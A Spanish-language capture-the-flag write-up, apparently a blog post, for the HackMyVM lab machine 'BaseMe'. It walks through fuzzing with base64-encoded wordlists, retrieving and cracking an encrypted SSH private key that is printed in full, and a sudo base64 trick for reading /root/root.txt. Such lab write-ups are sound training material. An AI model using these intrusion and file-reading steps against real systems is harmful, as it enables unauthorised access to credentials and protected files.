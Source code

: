 ```yaml
---
layout      : post
title       : "BaseMe - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/baseme-HackMyVM/previsualización.jpg
category    : [ HackMyVM ]
tags        : [ Linux ]
---
```


BaseMe es una máquina de nivel fácil de la plataforma HackMyVm en la que tocaremos mucho Base64 y crackeo de RSA.

# Escaneo de Puertos

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 ca:09:80:f7:3a:da:5a:b6:19:d9:5c:41:47:43:d4:10 (RSA)
|   256 d0:75:48:48:b8:26:59:37:64:3b:25:7f:20:10:f8:70 (ECDSA)
|_  256 91:14:f7:93:0b:06:25:cb:e0:a5:30:e8:d3:d3:37:2b (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos dos puertos abiertos, el 22 (ssh) y el 80 (http).

# Explotación

Abro el navegador para ver que tenemos en el puerto 80.

Al abrirlo encuentro una cadena codificada en base64 y varias palabras que podríamos usar más tarde como diccionario para algún tipo de ataque que lo requiera.

![](/assets/images/HMV/baseme-HackMyVM/dicbase64.png)


Decodificamos la cadena:

```bash
❯ echo "QUxMLCBhYnNvbHV0ZWx5IEFMTCB0aGF0IHlvdSBuZWVkIGlzIGluIEJBU0U2NC4KSW5jbHVkaW5nIHRoZSBwYXNzd29yZCB0aGF0IHlvdSBuZWVkIDopClJlbWVtYmVyLCBCQVNFNjQgaGFzIHRoZSBhbnN3ZXIgdG8gYWxsIHlvdXIgcXVlc3Rpb25zLgotbHVjYXMK " | base64 -d
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```

Todo lo necesario ha de estar en base64 según dice la nota.

A continuación procedo a fuzzear para buscar posibles rutas en el servidor, pero antes de nada debemos codificar las palabras del diccionario que usaremos en base64.

Yo usaré un pequeño script para realizar esta tarea de forma automatizada y más rápido.


```bash
#!/bin/bash

for i in `cat common.txt` ; do echo $i | base64 >> base64enc.txt ; done
```

Codifico el diccionario common.txt de la ruta `/usr/share/wordlists/dirb/common.txt` y ahora ya sí podemos fuzzear usando el diccionario.

```bash
❯ gobuster -u http://192.168.0.27 -w base64enc.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.0.27/
[+] Threads      : 10
[+] Wordlist     : base64enc.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/05/02 01:50:32 Starting gobuster
=====================================================
/aWRfcnNhCg== (Status: 200)
/cm9ib3RzLnR4dAo= (Status: 200)
=====================================================
2022/05/02 01:50:34 Finished
=====================================================
```

Como podemos ver tenemos las siguientes rutas:

```bash
/aWRfcnNhCg== 
/cm9ib3RzLnR4dAo=
```

Accedo desde el navegador a la ruta `/aWRfcnNhCg==` y se me descarga un archivo, la otra ruta no nos dio nada que nos pudiera servir.

![](/assets/images/HMV/baseme-HackMyVM/rsaenc.png)

Decodifico la cadena y es una clave RSA.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```

Asignamos permisos 600 a la clave id_rsa

`chmod 600 id_rsa`

Intento usar la clave para loguearme por ssh pero me pide la contraseña, por lo tanto debo crackear la id_rsa para obtener la contraseña.

Para crackear la clave RSA puedo usar **ssh2john** pero usaré otra herramienta:

[https://github.com/d4t4s3c/RSAcrack](https://github.com/d4t4s3c/RSAcrack)

Usaré la herramienta RSAcrack creada por d4t4s3c.

Pero antes de nada debemos recordar que todo ha de estar codificado en base64 y que necesitamos un diccionario... Y me acordé de la lista de palabras que encontramos al comienzo del CTF.

Codifico la lista de palabras:

```bash
aWxvdmV5b3UK
eW91bG92ZXlvdQo=
c2hlbG92ZXN5b3UK
aGVsb3Zlc3lvdQo=
d2Vsb3ZleW91Cg==
dGhleWhhdGVzbWUK
```

Y procedo a crackear la clave:


![](/assets/images/HMV/baseme-HackMyVM/rsa.gif)


Ya tenemos la contraseña, ahora debemos loguearnos por ssh usando la misma.

Me logueo por ssh y ya podremos leer la flag user.txt

```bash
❯ ssh lucas@192.168.0.27 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux baseme 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep  2 20:13:28 2022 from 192.168.0.52
```

# Escalada de Privilegios

Ahora procedo a escalar privilegios para leer la bandera root.txt

Lanzando `sudo -l` puedo ver que puedo ejecutar el binario base64 como root sin contraseña.

Asique me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/base64/](https://gtfobins.github.io/gtfobins/base64/)


![](/assets/images/HMV/baseme-HackMyVM/base64gtfo.png)

Si ejecutamos el comando podemos leer cualquier archivo del sistema.


`sudo /usr/bin/base64 /root/root.txt | base64 --decode` 

Y listo, ya tenemos la flag root.





